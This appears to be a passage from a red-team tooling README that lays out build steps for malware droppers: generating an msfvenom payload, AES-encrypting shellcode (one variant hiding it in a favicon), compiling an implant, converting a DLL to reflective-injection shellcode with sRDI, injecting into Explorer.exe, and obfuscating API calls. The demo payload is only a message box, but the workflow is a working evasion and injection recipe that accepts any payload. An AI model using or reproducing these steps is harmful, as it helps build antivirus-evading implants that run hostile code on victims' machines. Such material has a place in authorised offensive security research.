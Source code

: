 #### Generate msfvenom payload
```
msfvenom -p windows/x64/messagebox TEXT="0xjs" EXITFUNC=thread -o msgbox64.bin
```

#### AES encrypt to favicon
```
python aesencryptfile.py msgbox64.bin
```

#### Compile implant.exe
- Place the payload and key inside the `payl` and `pkey` values
```
compile.bat
```

## Dropper Shellcode Reflected DLL Explorer
- [Dropper_AES_Reflected_DLL_MapView_Explorer](projects/Dropper_AES_Reflected_DLL_MapView_Explorer/)
- AES encrypted payload compiled to a DLL. Converted to shellcode reflective DLL injection and then AES encrypted again
- MapView injection into `Explorer.exe`
- Function call obfuscation with GetModuleHandle and GetProcAddress helpers

#### Generate msfvenom payload
```
msfvenom -p windows/x64/messagebox TEXT="0xjs" EXITFUNC=thread -o msgbox64.bin
```

#### AES encrypt shellcode
```
python aesencrypt.py msgbox64.bin > out.txt
```

#### Generate DLL
- Place payload and key inside DLL and compile it.
```
compileDLL.bat
```

#### Create Reflective DLL shellcode
```
python ..\sRDI\Python\ConvertToShellcode.py -f Go implant.dll
```

#### AES encrypt shellcode
```
python aesencrypt.py implant.bin > out2.txt
```

#### Compile implant.exe
- Place the payload and key inside the `payl` and `pkey` values
```
compile.bat
```
